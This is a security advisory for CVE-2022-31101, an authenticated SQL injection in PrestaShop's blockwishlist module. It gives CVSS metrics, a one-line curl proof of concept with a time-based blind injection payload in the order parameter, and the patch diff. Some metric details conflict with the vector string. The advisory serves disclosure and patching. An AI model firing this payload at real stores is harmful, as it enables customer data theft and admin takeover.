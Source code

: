```yaml
---
layout: post
title: "[CVE-2022-31101] Invalid order neutralization in an SQL query in PrestaShop blockwishlist module"
categories: modules
author:
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,blockwishlist"
severity: "high (8.1)"
---
```


**blockwishlist** is a prestashop extension which adds a block containing the customer's wishlists. In affected versions an authenticated customer can perform SQL injection. This issue is fixed in version 2.1.1. Users are advised to upgrade. There are no known workarounds for this issue. 

## Summary

* **CVE ID**: [CVE-2022-31101](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31101)
* **Published at**: 2022-06-24
* **Advisory source**: PrestaShop
* **Vendor**: PrestaShop
* **Product**: blockwishlist
* **Impacted release**: >=2.0.0, 2.1.1
* **Product author**: PrestaShop
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.1)

## Description

An authenticated customer can perform SQL injection.


## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: none

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

## Possible malicious usage

Technical and personal data leaks
Obtain admin access
Remove all data of the linked PrestaShop

## Proof of concept

Based on this [POC](https://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)

```bash
curl -v 'http://website.com/module/blockwishlist/view?id_wishlist=1&order=product.name%2C%20%28select%20case%20when%20%28id_customer%3D1%29%20then%20%28SELECT%20SLEEP%287%29%29%20else%201%20end%20from%20ps_customer%20where%20id_customer%3D1%29%3B%20--.asc'
```


## Patch of release 2.1.0 to 2.1.1

Issue is fixed in 2.1.1 in this [patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

```diff
--- a/src/Search/WishListProductSearchProvider.php
+++ b/src/Search/WishListProductSearchProvider.php
@@ -35,6 +35,7 @@ use PrestaShop\PrestaShop\Core\Product\Search\SortOrderFactory;
 use Product;
 use Shop;
 use Symfony\Component\Translation\TranslatorInterface;
+use Validate;
 use WishList;
 
 /**
@@ -167,7 +168,10 @@ class WishListProductSearchProvider implements ProductSearchProviderInterface
 
         if ('products' === $type) {
             $sortOrder = $query->getSortOrder()->toLegacyOrderBy(true);
-            $querySearch->orderBy($sortOrder . ' ' . $query->getSortOrder()->toLegacyOrderWay());
+            $sortWay = $query->getSortOrder()->toLegacyOrderWay();
+            if (Validate::isOrderBy($sortOrder) && Validate::isOrderWay($sortWay)) {
+                $querySearch->orderBy($sortOrder . ' ' . $sortWay);
+            }
             $querySearch->limit((int) $query->getResultsPerPage(), ((int) $query->getPage() - 1) * (int) $query->getResultsPerPage());
             $products = $this->db->executeS($querySearch);
```


## Other recommandations

It’s recommended to upgrade to the lastest version of the module **blockwishlist** up to 2.1.1.

Please note, blockwishlist is often forked to be custumized.

## Links

* [PrestaShop product repository](https://github.com/PrestaShop/blockwishlist/security/advisories/GHSA-2jx3-5j9v-prpp)
* [POC](http://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)
* [Patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

